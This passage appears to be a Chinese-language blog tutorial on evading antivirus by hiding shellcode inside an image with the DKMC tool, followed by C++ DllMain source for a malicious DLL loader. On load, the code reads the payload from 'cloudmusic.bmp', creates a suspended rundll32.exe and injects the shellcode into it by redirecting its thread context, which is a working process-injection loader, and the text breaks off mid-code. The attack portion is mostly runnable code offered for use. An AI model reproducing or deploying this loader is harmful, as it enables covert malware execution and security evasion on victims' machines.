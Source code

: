 这样还是不够的，因为没有加密处于裸奔的状态，写个加密算法又很麻烦，这就想到了把shellcode存放在图片内进行隐写。

这里需要用到开源的工具  
github:https://github.com/Mr-Un1k0d3r/DKMC

利用工具配合shellcode生成图片。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221026095116.png)

随后继续更改源代码，从图片文件读取shellcode。

源代码如下：

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。  
    #include "framework.h"  
    #include "windows.h"  
    #include "libcurl.h"  
    #include <stdlib.h>  
    #include <stdio.h>  
      
      
    BOOL APIENTRY DllMain( HMODULE hModule,  
                           DWORD  ul_reason_for_call,  
                           LPVOID lpReserved  
                         )  
    {  
        switch (ul_reason_for_call)  
        {  
        case DLL_PROCESS_ATTACH:  
        {  
            FILE* fp;  // 定义流式文件操作变量fp，FILE结构体在stdio.h里面有定义  
            size_t size;  // 定义文件字节数变量size  
            unsigned char* buffer;  // 定义缓存指针变量  
      
            fp = fopen("cloudmusic.bmp", "rb");  
            // fseek()负号前移，正号后移  
            fseek(fp, 0, SEEK_END);          // 文件指针指向文件末尾  
            // ftell()返回给定流 stream 的当前文件位置  
            size = ftell(fp);                // size值为文件大小  
            fseek(fp, 0, SEEK_SET);          // 文件指针指向文件开头  
            buffer = (unsigned char*)malloc(size);    // 动态申请图片大小的内存空间（数组指针）  
            fread(buffer, size, 1, fp);  // 从fp读取和显示1个size大小的数据  
      
            char* v7A = (char*)VirtualAlloc(0, size, 0x3000u, 0x40u);  
            memcpy((void*)v7A, buffer, size);  
      
            struct _PROCESS_INFORMATION ProcessInformation;  
            struct _STARTUPINFOA StartupInfo;  
            void* v24;  
            CONTEXT Context;  
            DWORD DwWrite = 0;  
            memset(&StartupInfo, 0, sizeof(StartupInfo));  
            StartupInfo.cb = 68;  
            BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);  
            if (result)  
            {  
                Context.ContextFlags = 65539;  
                GetThreadContext(ProcessInformation.hThread, &Context);  
                v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, size, 0x1000u, 0x40u);  
                WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, size, &DwWrite);  
                Context.Eip = (DWORD)v24;  
                SetThreadContext(ProcessInformation.hThread, &Context);  
                ResumeThread(ProcessInformation.hThread);  
                CloseHandle(ProcessInformation.hThread);  
                result = CloseHandle(ProcessInformation.hProcess);  
            }  